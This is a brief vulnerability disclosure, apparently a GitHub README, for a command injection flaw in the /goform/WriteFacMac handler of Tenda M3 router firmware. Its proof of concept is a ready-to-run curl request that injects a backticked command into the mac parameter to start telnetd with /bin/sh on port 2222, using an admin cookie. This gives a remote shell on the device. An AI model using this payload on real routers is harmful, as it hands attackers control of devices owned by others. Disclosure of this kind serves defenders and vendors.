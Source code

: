 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/WriteFacMac route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/WriteFacMac -d mac='`telnetd -p 2222 -l /bin/sh`' --cookie "user=admin"
```





![poc](./poc.jpg)

